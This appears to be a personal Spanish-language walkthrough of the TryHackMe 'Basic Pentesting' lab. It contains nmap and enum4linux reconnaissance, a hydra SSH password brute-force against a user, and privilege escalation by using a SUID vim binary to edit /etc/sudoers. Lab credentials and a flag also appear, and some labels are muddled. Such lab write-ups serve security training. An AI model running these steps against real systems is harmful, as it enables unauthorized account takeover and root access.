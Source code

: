 # Basic Pentesting

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 15 de diciembre de 2024 19:15
IP: 10.10.132.218

# Reconocimiento (Recon)

Escaneo de Puertos

- [ ]  **Nmap inicial**:

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn <%IP%> -oG targeted

```

**Puertos Abiertos**:
**[Puertos ]**: 22,80,139,445,8009,8080

![image.png](<imagenes/image 6.png>)

- [ ]  **Nmap servicios**:

```bash
sudo nmap -sCV -p1,2,3 <%IP%> -oN nmap
sudo nmap -v -sV -O --script="safe and vuln" -T4 -n -Pn -p135,445 -oA nmap <%IP%>
```

![image.png](<imagenes/image 7.png>)

- [ ]  **Nmap webscan**

```bash
sudo nmap -p80 --script=http-enum 10.10.132.218 -oN webscan

```

Potentially interesting: /development/

- [ ]  **Enum4linux**:

```bash
emum4linux -a <IP>

```

User: **kay**
User: **jan**

# Análisis de Vulnerabilidades

**Vulnerabilidad Potencial**:

/developer/

![image.png](<imagenes/image 8.png>)

**Vulnerabilidad Potencial**:
Probamos con hydra a los usuarios kay y jan

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.132.218 ssh

```

![image.png](<imagenes/image 9.png>)

User: **jan**
Pass: **armando**

Conectamos por SSH

# Explotación (Exploit)

Ejecución del Exploit

- **Exploit Utilizado**:
    
    ```bash
    enum4linux -a IP
    ```
    

Resultados**:  Usuarios con los que probar fuerza bruta

# Escalada de Privilegios

- **Enumeración de Privilegios**:
    
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
    

![image.png](<imagenes/image 10.png>)

- **Método de Escalada**: Editamos un fichero privilegiado con un binario SUID

```bash
    /usr/bin/vim.basic
    /usr/bin/vim.basic /etc/sudoers    
```

![image.png](<imagenes/image 11.png>)

```bash
sudo su
root
```

# Post-Explotación

Obtención de User.txt

- **Localización**: Obtenido con hydra
- Contenido :
    - User: jan
    - Pass: Armando

### 4.2 Obtención de Root.txt

- **Localización**:
    
    ```bash
    /home/kay/pass.bak
    ```
    

- **Contenido**:
    
    ```bash
    heresareallystrongpasswordthatfollowsthepasswordpolicy$$
    ```